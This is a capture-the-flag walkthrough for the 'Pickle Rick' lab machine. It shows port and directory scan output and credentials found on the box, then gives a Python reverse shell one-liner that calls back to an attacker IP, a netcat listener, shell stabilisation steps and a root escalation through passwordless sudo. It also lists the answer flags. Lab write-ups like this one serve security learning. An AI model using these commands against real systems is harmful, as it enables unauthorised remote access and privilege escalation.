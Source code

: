 # Pickle Rick

* IP=10.10.61.126

## Nmap scan report:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0a:0c:98:e3:b0:cc:bb:31:bb:9b:d1:72:4d:d5:19:9b (RSA)
|   256 f0:0c:16:42:28:8c:e5:20:c0:a1:74:60:23:37:8a:27 (ECDSA)
|_  256 8f:fe:50:7c:08:6c:24:d8:25:af:4d:f5:3b:e0:53:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## GoBuster report:
```
=====================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)

```
### Login Creds at /login.php:
```
Username: R1ckRul3s
robots.txt: Wubbalubbadubdub (password)
```
## Questions/Tasks:

1. What is the first ingredient Rick needs?
```bash
while read line; do echo $line; done < Sup3rS3cretPickl3Ingred.txt
```
OR
```bash
grep . Sup3rS3cretPickl3Ingred.txt
```
Ans- mr. meeseek hair

2. Whats the second ingredient Rick needs?

* Python3 reverse shell on the command panel:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.50.128",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Listen on port 7777:
```bash
nc -lnvp 7777
```
* Elevate the shell:
```
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
!nc
```
* Navigate to /home/rick
* home directory contents:
```bash
$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```
```
cat 'second ingredients'
```
Ans- 1 jerry tear

3. Whats the final ingredient Rick needs?

* Check sudo permissions(commands that can be run with sudo)
```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-61-126.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-61-126.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
* Since sudo is set to no password, hence we can escalate privileges just by:
```bash
sudo bash
```
* Navigate to /root and find the 3rd.txt

Ans- fleeb juice
